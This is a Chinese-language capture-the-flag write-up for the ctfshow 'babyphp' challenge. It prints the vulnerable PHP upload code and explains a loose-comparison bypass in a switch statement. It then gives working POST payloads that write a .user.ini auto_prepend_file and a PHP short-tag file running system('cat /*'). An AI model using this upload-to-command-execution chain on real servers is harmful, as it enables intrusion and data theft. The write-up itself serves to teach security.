



# ctfshow之babyphp

源码如下:

```
<?php

/*
# -*- coding: utf-8 -*-
# @Author: h1xa
# @Date:   2021-05-31 13:40:37
# @Last Modified by:   h1xa
# @Last Modified time: 2021-05-31 16:36:27
# @email: h1xa@ctfer.com
# @link: https://ctfer.com

*/


error_reporting(0);

class fileUtil{

    private $name;
    private $content;


    public function __construct($name,$content=''){
        $this->name = $name;
        $this->content = $content;
        ini_set('open_basedir', '/var/www/html');
    }

    public function file_upload(){
        if($this->waf($this->name) && $this->waf($this->content)){
            return file_put_contents($this->name, $this->content);
        }else{
            return 0;
        }
    }

    private function waf($input){
        return !preg_match('/php/i', $input);
    }

    public function file_download(){
        if(file_exists($this->name)){
            header('Content-Type: application/octet-stream');
            header('Content-Disposition: attachment; filename="'.$this->name.'"');
            header('Content-Transfer-Encoding: binary');
            echo file_get_contents($this->name);
        }else{
            return False;
        }
    }

    public function __destruct(){

    }

}

$action = $_GET['a']?$_GET['a']:highlight_file(__FILE__);

if($action==='upload'){
    die('Permission denied');
}

switch ($action) {
    case 'upload':
        $name = $_POST['name'];
        $content = $_POST['content'];
        $ft = new fileUtil($name,$content);
        if($ft->file_upload()){
            echo $name.' upload success!';
        }
        break;
    case 'download':
        $name = $_POST['name'];
        $ft = new fileUtil($name,$content);
        if($ft->file_download()===False){
            echo $name.' download failed';
        }
        break;
    default:
        echo 'baby come on';
        break;
}


```

一看就要调用file_put_content()写文件

    private function waf($input){
        return !preg_match('/php/i', $input);
    }

这里不允许php字符,那我们文件的后缀都不能为php了

可以用.user.ini绕过(其作用和htaccess有点类似)



```
$action = $_GET['a']?$_GET['a']:highlight_file(__FILE__);
```

这个三目运算符,如果我们不传入a,那执行`highlight_file(__FILE__)`

可以在本地尝试一下


```
<?php

var_dump(highlight_file(__FILE__));
```

这个代码的运行结果是true

利用php的松散性

![[外链图片转存失败,源站可能有防盗链机制,建议将图片保存下来直接上传(img-EoLpuCTj-1622627885977)(D:\this_is_feng\github\CTF\Web\picture\pic6.png)]](https://img-blog.csdnimg.cn/20210602180130123.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3JmcmRlcg==,size_16,color_FFFFFF,t_70)

可以看到与字符串比较只有0和字符串本身能够返回true

而`case 'upload'`和`case 'download'`相当于case 0

所以绕过我们不传入a,`$action`的值就是true,在case语句中能够自动进入`case 'upload'`和`case 'download'`

了解这些后就可以开始做题了

```
POST:
content=auto_prepend_file="1.txt"&name=.user.ini	#自动包含1.txt
```



然后

```
content=<?=system('cat /*');?>&name=/var/www/html/1.txt
```

最后在刷新一下页面就是,因为我们写入文件后他自己会马上读取

